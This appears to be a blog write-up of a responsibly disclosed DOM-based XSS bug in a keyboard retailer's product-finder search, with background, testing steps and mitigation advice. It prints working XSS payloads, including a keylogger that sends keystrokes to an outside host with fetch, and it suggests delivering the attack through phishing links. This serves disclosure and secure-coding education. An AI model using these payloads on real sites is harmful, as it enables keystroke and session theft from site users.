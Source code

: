 ```yaml
---
layout: post
title: "Zero-Day Research:  Mechanical Keyboard Finder Version 4.31"
featured-img: mk0day
author: Josiah Bryan
category: [Zero Day Research]
---
```


## Introduction
In this edition of *Zero-Day Research*, I happen to come across a DOM-based Cross Site Scripting Vulnerability in 'Mechanical Keyboard's (MK's) Famous Mechanical Keyboard Finder (Version 4.31)' and helped their team verify the issue upon request. I have to give lots of kudos to the awesome security team at MK. They quickly responded and patched the issue within a day of disclosure. If more vendors were as serious as MK about security, our nation's overall cyber posture would be in much better shape. MK is an industry-leading mechanical keyboard vendor with unique varieties of mechanical keyboards for sale. You can check them out [here](https://mechanicalkeyboards.com).

## Disclosure and Disclaimer
The Cross Site Scripting vulnerability was responsibly disclosed and verified (upon request) to the MK security team. This post was intended for web developers who are interested in keeping their applications secure and is for **EDUCATIONAL PURPOSES ONLY**. I do not condone illegal activity and cannot be held responsible for the misuse of this information.

## Cross Site Scripting
Cross-Site Scripting (XSS) is a common web vulnerability that allows an attacker to inject malicious javascript into normal websites. XSS is a client-side attack, where the end-user connecting to the application is the victim. This enables attackers to steal credentials, hijack accounts, access sensitive data, and much more. For more information on cross-site scripting, PortSwigger has fantastic in-depth [articles](https://portswigger.net/web-security/cross-site-scripting) explaining the different types of XSS and how they can impact end-users.

## DOM Based XSS
[OWASP](https://www.owasp.org/index.php/DOM_Based_XSS) refers to DOM Based XSS as "an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment”. The DOM in this context is the "Document Object Model", or the tree structure and programming interface that is used to construct HTML web pages:


![DOMexample](/assets/img/posts/DOMexample.png)<br/>


DOM-based XSS can be more difficult to discover than other forms of XSS because it requires a detailed review of how and where the user input is stored within the DOM. Context is the most important aspect when searching for DOM XSS because the location where user input is stored will almost certainly be different in each scenario and application.

## Identifying Vulnerable Parameters
The overall process for identifying DOM XSS bugs is simple:

1. See if the application stores user input somewhere in the DOM
2. See if the application filters certain characters or sanitizes the input. If the application sanitizes user input using techniques like HTML or javascript encoding, DOM XSS might not exist in the application.
3. If the application stores user input without sanitization, you can guarantee some extent of XSS is possible. Even with a Web Application Firewall (WAF) in play, there is an infinite amount of XSS filter bypasses that can be applied to the payload. Only upon request with full permission from the vendor should you every POC (or verify) the vulnerability on a live application. Given that we have permission to verify, we can then start crafting an attack based on where the input is stored in the DOM.

Let's start with a basic request like so:

```
xss
```

We can then search for our unique 'xss' term in the DOM after the request has been made:
* In Firefox (or any browser), right-click on the results page and select 'View Page Source':
* On the HTML source page, select Control/Command+f the find a term


![source](/assets/img/posts/basic_source.png)
<br/>
<br/>

After verifying the location and presence of our search term in the DOM we can add a few special characters to the end of the term like so:

```
xss>"'
```


Repeating the previous few steps we can verify if our new search term is stored in the DOM without being converted to an HTML entity. A basic list of basic HTML entities is shown below:

![entities](/assets/img/posts/entities_html.png)

In this particular situation, the special characters were not converted to HTML entities. That being said, we can close off the encompassing attribute or tag as a part of our search term and effectively add our code to the DOM.


## Payload Crafting

In this context we want to craft a payload that closes off the preceding h3 tag, continues to execute some code, and adds a trailing h3 tag to achieve a correct number of matching tags:
```
Sample payload: 

</h3><img src=x onerror=prompt(document.domain)><h3>
```
This will cleanly close off the encompassing h3 tag and allow us to execute code that will pop up an alert to the screen with the name of the vulnerable domain:

![alert](/assets/img/posts/domain_redac.png)

It worked! <br/><br/>**Note**: in scenarios where the application does some form of basic input sanitization searching for bad characters we could url encode our payload like so:

```
Sample payload encoded: 
%3C%2Fh3%3E%3Cimg%20src%3Dx%20onerror%3Dprompt%28document.domain%29%3E%3Ch3%3E
```

## Taking it Further
This XSS bug not only modifies the DOM but is reflected in the URL. This means we could carry out the XSS attack by providing a simple link in a phishing campaign. Collecting user cookies at this point is trivial:

```
</h3><img src=x onerror=prompt(document.cookie)><h3>
```

![cookies](/assets/img/posts/cookie_redac.png)

Harvesting cookies and shipping them off to a remote server is also quite simple:
```
</h3><img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'><h3>
```

From here the possibilities are endless. There are quite a few XSS [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on the web. Some possible attack scenarios include: 

* Account Hijacking
* Port Scanning
* Spying/Keylogging
* Browser Hooking with [BeEF](https://beefproject.com/)
* Installing Backdoors/Malware

## Mitigation

DOM XSS can be hard for automated scanners to find at times because of its dynamic nature. This type of bug is quite common across the Internet but can be prevented by treating all user input as malicious and sanitizing the data in question. 

PHP (the language used by this site) offers useful functions to achieve sanitization, such as [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) and [htmlentities()](https://www.php.net/manual/en/function.htmlentities.php). These functions will automatically convert special characters to HTML entities. Most languages offer these types of libraries and functions to make sanitizing user input quite easy. One mistake developers make is attempting to implement filtering and sanitization using client-side controls. Each user has complete control over the client, rendering client-side sanitization efforts useless.

## References

* https://portswigger.net/web-security/cross-site-scripting
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html 
* https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
* https://www.geeksforgeeks.org/dhtml-javascript/
* https://mechanicalkeyboards.com/about.php 
* https://www.owasp.org/index.php/DOM_Based_XSS
* https://www.w3schools.com/html/html_entities.asp
* https://www.google.com/about/appsecurity/learning/xss/
* https://www.php.net/manual/en/function.htmlspecialchars.php
* https://www.php.net/manual/en/function.htmlentities.php

<br/><br/>
**Proverbs 2:6-8**<br/>
For the Lord gives wisdom; from his mouth come knowledge and understanding...